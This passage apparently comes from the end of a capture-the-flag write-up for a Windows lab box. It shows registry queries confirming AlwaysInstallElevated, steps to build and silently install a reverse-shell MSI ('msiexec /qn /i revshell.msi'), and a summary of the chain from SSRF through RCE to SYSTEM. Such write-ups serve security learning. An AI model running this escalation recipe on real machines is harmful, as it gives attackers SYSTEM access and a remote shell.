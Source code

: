 ```console
C:\xampp\htdocs>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\xampp\htdocs>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

### AlwaysInstallElevated: install malicious msi

1. msfvenom to create reverse shell msi
2. certutil to upload msi into Windows
3. msiexec to install uploaded msi: `msiexec /qn /i revshell.msi` (/qn: quiet & no gui)

![image-20240312061502023](./Love.assets/image-20240312061502023.png)

## Exploit Chain

port scan: http, https (80, 443, 5000), subdomains -> vulnerable Voting System & ssrf subdomain site -> ssrf: voting system's credential -> RCE: phoebe shell -> enum privilege: AlwaysInstallElevated -> msiexec install malicious msi(revshell) -> system privilege
